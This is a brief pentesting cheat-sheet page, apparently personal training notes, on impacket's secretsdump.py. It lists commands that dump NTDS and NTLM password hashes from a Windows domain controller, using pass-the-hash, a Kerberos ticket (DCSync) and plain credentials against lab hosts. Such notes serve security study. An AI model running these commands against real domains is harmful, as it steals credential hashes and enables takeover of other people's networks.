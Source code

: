```yaml
---
title: secretsdump.py - A module from impacket
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - active
  - directory
  - ldap
  - linux
---
```

# secretsdump.py


 Performs various techniques to dump hashes from the remote machine without executing any agent there.  For SAM and LSA Secrets (including cached creds) we try to read as much as we can from the registry and then we save the hives in the target system  (%SYSTEMROOT%\\Temp dir) and read the rest of the data from there.

https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py

```
# Dumping NTDS with SecretsDump
secretsdump.py inlanefreight/administrator@192.168.195.204 -hashes ad3b435b51404eeaad3b435b51404ee:e4axxxxxxxxxxxxxxxx1c88c2e94cba2 -just-dc-ntlm

# Use this TGT with secretsdump.py to perform a DCSYnc and retrieve one or all of the NTLM password hashes for the domain.
secretsdump.py -just-dc-user $domain/administrator -k -no-pass "$hostName"@$hostName.$domain
# Example:
# secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL

# Another example of dumpling NTDS with SecretsDump
secretsdump.py server_adm@10.129.43.9 -just-dc-user administrator
```

